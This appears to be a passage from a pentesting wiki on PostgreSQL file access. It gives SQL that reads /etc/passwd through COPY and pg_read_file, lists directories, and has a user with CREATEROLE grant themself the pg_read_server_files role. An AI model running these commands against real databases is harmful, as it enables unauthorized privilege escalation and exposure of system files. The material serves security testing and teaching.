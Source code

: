 ### Read directories and files

From this [**commit** ](https://github.com/postgres/postgres/commit/0fdc8495bff02684142a44ab3bc5b18a8ca1863a)members of the defined **`DEFAULT_ROLE_READ_SERVER_FILES`** group (called **`pg_read_server_files`**) and **super users** can use the **`COPY`** method on any path (check out `convert_and_check_filename` in `genfile.c`):

```sql
# Read file
CREATE TABLE demo(t text);
COPY demo from '/etc/passwd';
SELECT * FROM demo;
```

{% hint style="warning" %}
Remember that if you aren't super user but has the **CREATEROLE** permissions you can **make yourself member of that group:**

```sql
GRANT pg_read_server_files TO username;
```

[**More info.**](../../../network-services-pentesting/pentesting-postgresql.md#privilege-escalation-with-createrole)
{% endhint %}

There are **other postgres functions** that can be used to **read file or list a directory**. Only **superusers** and **users with explicit permissions** can use them:

```sql
# Before executing these function go to the postgres DB (not in the template1)
\c postgres
## If you don't do this, you might get "permission denied" error even if you have permission

select * from pg_ls_dir('/tmp');
select * from pg_read_file('/etc/passwd', 0, 1000000);
select * from pg_read_binary_file('/etc/passwd');

# Check who has permissions
\df+ pg_ls_dir
\df+ pg_read_file
\df+ pg_read_binary_file

# Try to grant permissions
GRANT EXECUTE ON function pg_catalog.pg_ls_dir(text) TO username;
# By default you can only access files in the datadirectory
SHOW data_directory;
# But if you are a member of the group pg_read_server_files
# You can access any file, anywhere
GRANT pg_read_server_files TO username;
# Check CREATEROLE privilege escalation
```

You can find **more functions** in [https://www.postgresql.org/docs/current/functions-admin.html](https://www.postgresql.org/docs/current/functions-admin.html)
